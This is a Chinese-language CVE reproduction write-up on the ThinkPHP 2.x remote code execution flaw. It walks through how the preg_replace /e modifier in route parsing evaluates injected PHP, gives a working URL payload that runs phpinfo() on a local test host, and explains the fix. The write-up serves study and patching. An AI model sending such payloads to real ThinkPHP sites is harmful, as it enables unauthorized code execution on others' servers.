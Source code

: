 date: 2020-01-30
categories:
- cve复现
tags:
- cve复现
title: ThinkPHP 2.x任意代码执行漏洞
---
# ThinkPHP 2.x任意代码执行漏洞



## 影响范围

thinkphp 2.1

官网的thinkphp 2.2已经修复了



## 漏洞复现

漏洞位置

![image154](https://i.loli.net/2020/01/30/8UW5mxvARaoFlPX.png)

路由解析处

`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

这个preg_replace有点古怪,没有用`/`来包围搜索模式而是用`@`,查找关于preg的文档发现

>当使用 PCRE 函数的时候，模式需要由*分隔符*闭合包裹。分隔符可以使任意非字母数字、非反斜线、非空白字符。   
>
>  经常使用的分隔符是正斜线(*/*)、hash符号(*#*)   以及取反符号(*~*)。下面的例子都是使用合法分隔符的模式。    
>
>```
>/foo bar/
>#^[^0-9]$#
>+php+
>%[a-zA-Z0-9_-]%
>```

替换常量,这个就变成了

`preg_replace('@(\w+)/([^\/\/]+)@e', '$var[\'\\1\']="\\2";', implode('/',$paths));`

查看preg_replace的介绍发现

>当使用被弃用的 e 修饰符时, 这个函数会转义一些字符(即：'、"、 \ 和 NULL) 然后进行后向引用替换。当这些完成后请确保后向引用解析完后没有单引号或双引号引起的语法错误(比如： 'strlen(\'$1\')+strlen("$2")')。确保符合PHP的 字符串语法，并且符合eval语法。因为在完成替换后，引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。 

执行`$replacement`(第二个参数)前,会先替换掉引用

我们可以看到,`$replacement`用双引号来包围引用`\\2`,会导致命令执行



构造

```php
$paths=array(
	'xxxx',
    '${phpinfo()}'
);
```

则`'$var[\'\\1\']="\\2";'`变为`$var['xxxx']="${phpinfo()}";`

从而导致命令执行

于是构造payload

` [http://127.0.0.1/public/index.php?s=/index/index/name/$%7B@phpinfo()%7D](http://127.0.0.1/public/index.php?s=/index/index/name/${@phpinfo()}) `



## 补丁分析

![image1293](https://i.loli.net/2020/01/30/9AlHbyKzaBOJXnR.png)



用单引号来包围所有引用就可以避免命令执行



## 参考

 https://github.com/vulhub/vulhub/tree/master/thinkphp/2-rce 

